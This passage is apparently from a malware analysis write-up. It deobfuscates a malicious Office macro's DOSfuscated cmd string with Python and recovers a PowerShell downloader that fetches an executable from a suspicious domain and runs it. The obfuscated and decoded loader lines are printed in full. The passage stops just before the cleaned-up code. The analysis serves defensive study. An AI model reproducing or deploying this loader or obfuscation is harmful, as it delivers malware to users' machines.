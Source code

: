     >>> XmdrRVAlf = "^" + "f %R" + "=" + "=" + "^0 " + Format(Chr(0 + 1 + 2 + 5 + 91)) + "a" + "^l^l %^" + "Z^" + "Y:*^ZY^"
    >>> ZsfrSsv = "!" + "=%" + Format(Chr(0 + 0 + 0 + 1 + 33)) + "  " + ""
    >>> FScXPdzAh = XmdrRVAlf + ZsfrSsv
    >>>
    >>> # From Document_Open, string passed to Shell
    ...
    >>> print FPwimk + FScXPdzAh
    cmd /V/C"s^e^t ^K1=^ ^    ^ ^ ^        ^  }^}^{^hc^t^ac};ka^er^b;z^i^A$ metI-e^k^ovnI;)^zi^A^$^ ^,dq^f$(^e^li^F^dao^lnw^oD.c^WV^${^yrt{)t^I^w^$^ ni^ dq^f^$(hca^ero^f;^'e^xe.^'^+Kz^j^$+^'\^'+c^il^bu^p^:vn^e^$=z^i^A$^;^'^963^' = ^Kz^j^$^;)'^@'(ti^l^pS^.^'nkt.2a^gr^at^=l?php.t^o^ksnapo/TTR/moc^.r^j^5om2c^s^efd5^9t//:p^t^t^h'=tI^w$;^tn^e^ilCbe^W^.^t^eN ^tc^ej^bo^-^w^en=cWV$^ ^lleh^sr^e^w^o^p&&for /^L %R ^in (2^6^5^;-^1;^0)d^o ^se^t ^Z^Y=!^Z^Y!!^K1:~%R,1!&&i^f %R==^0 ca^l^l %^Z^Y:*^ZY^!=%"



#### Deobfuscating Dosfuscation

Well, that's clearly using some
[dosfuscation](https://www.fireeye.com/blog/threat-research/2018/03/dosfuscation-exploring-obfuscation-and-detection-techniques.md).
The first step is to remove all the `^`s:



    >>> out.replace('^','')
    'cmd /V/C"set K1=                 }}{hctac};kaerb;ziA$ metI-ekovnI;)ziA$ ,dqf$(eliFdaolnwoD.cWV${yrt{)tIw$ ni dqf$(hcaerof;\'exe.\'+Kzj$+\'\\\'+cilbup:vne$=ziA$;\'963\' = Kzj$;)\'@\'(tilpS.\'nkt.2agrat=l?php.toksnapo/TTR/moc.rj5om2csefd59t//:ptth\'=tIw$;tneilCbeW.teN
    tcejbo-wen=cWV$ llehsrewop&&for /L %R in (265;-1;0)do set
    ZY=!ZY!!K1:~%R,1!&&if %R==0 call %ZY:*ZY!=%"  '



The resulting command line does a few things:

-   Sets a variable K1 to a long string
-   Runs a for loop over a variable %R from 265 down to 0 subtracting 1
-   In that loop, it sets Z1 = Z1 + the Rth character in K1
-   If R is 0 it executes the string in Z1

We can do the same thing with python:

That is basically reversing the string. We can do that in python:



    >>> string = '                 }}{hctac};kaerb;ziA$ metI-ekovnI;)ziA$ ,dqf$(eliFdaolnwoD.cWV${yrt{)tIw$ ni dqf$(hcaerof;\'exe.\'+Kzj$+\'\\\'+cilbup:vne$=ziA$;\'963\' = Kzj$;)\'@\'(tilpS.\'nkt.2agrat=l?php.toksnapo/TTR/moc.rj5om2csefd59t//:ptth\'=tIw$;tneilCbeW.teN tcejbo-wen=cWV$ llehsrewop'

    >>> string[265:0:-1]
    "powershell $VWc=new-object Net.WebClient;$wIt='http://t95dfesc2mo5jr.com/RTT/opanskot.php?l=targa2.tkn'.Split('@');$jzK = '369';$Aiz=$env:public+'\\'+$jzK+'.exe';foreach($fqd in $wIt){try{$VWc.DownloadFile($fqd, $Aiz);Invoke-Item $Aiz;break;}catch{}}                "



Now we have some nice powershell, which cleaned up, looks like this:

